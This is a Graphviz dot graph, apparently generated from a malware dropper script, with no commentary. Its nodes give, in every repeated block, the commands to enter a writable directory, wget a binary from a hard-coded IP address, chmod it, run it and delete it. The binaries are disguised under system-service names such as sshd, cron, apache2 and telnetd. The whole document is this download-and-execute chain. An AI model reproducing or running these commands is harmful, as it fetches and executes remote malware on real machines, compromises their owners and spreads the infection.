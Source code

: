 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://188.213.170.146/ntpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x ntpd "];
12 -> 14 [label=";,"];
14 [label="./ntpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf ntpd "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://188.213.170.146/sshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x sshd "];
30 -> 32 [label=";,"];
32 [label="./sshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf sshd "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://188.213.170.146/openssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x openssh "];
48 -> 50 [label=";,"];
50 [label="./openssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf openssh "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://188.213.170.146/bash "];
64 -> 66 [label=";,"];
66 [label="chmod +x bash "];
66 -> 68 [label=";,"];
68 [label="./bash "];
68 -> 70 [label=";,"];
70 [label="rm -rf bash "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://188.213.170.146/tftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x tftp "];
84 -> 86 [label=";,"];
86 [label="./tftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf tftp "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://188.213.170.146/wget "];
100 -> 102 [label=";,"];
102 [label="chmod +x wget "];
102 -> 104 [label=";,"];
104 [label="./wget "];
104 -> 106 [label=";,"];
106 [label="rm -rf wget "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://188.213.170.146/cron "];
118 -> 120 [label=";,"];
120 [label="chmod +x cron "];
120 -> 122 [label=";,"];
122 [label="./cron "];
122 -> 124 [label=";,"];
124 [label="rm -rf cron "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://188.213.170.146/ftp "];
136 -> 138 [label=";,"];
138 [label="chmod +x ftp "];
138 -> 140 [label=";,"];
140 [label="./ftp "];
140 -> 142 [label=";,"];
142 [label="rm -rf ftp "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://188.213.170.146/pftp "];
154 -> 156 [label=";,"];
156 [label="chmod +x pftp "];
156 -> 158 [label=";,"];
158 [label="./pftp "];
158 -> 160 [label=";,"];
160 [label="rm -rf pftp "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://188.213.170.146/sh "];
172 -> 174 [label=";,"];
174 [label="chmod +x sh "];
174 -> 176 [label=";,"];
176 [label="./sh "];
176 -> 178 [label=";,"];
178 [label="rm -rf sh "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://188.213.170.146/[cpu] "];
190 -> 192 [label=";,"];
192 [label="chmod +x [cpu] "];
192 -> 194 [label=";,"];
194 [label="./[cpu] "];
194 -> 196 [label=";,"];
196 [label="rm -rf [cpu] "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://188.213.170.146/apache2 "];
208 -> 210 [label=";,"];
210 [label="chmod +x apache2 "];
210 -> 212 [label=";,"];
212 [label="./apache2 "];
212 -> 214 [label=";,"];
214 [label="rm -rf apache2 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://188.213.170.146/telnetd "];
226 -> 228 [label=";,"];
228 [label="chmod +x telnetd "];
228 -> 230 [label=";,"];
230 [label="./telnetd "];
230 -> 231 [label=";,"];
}

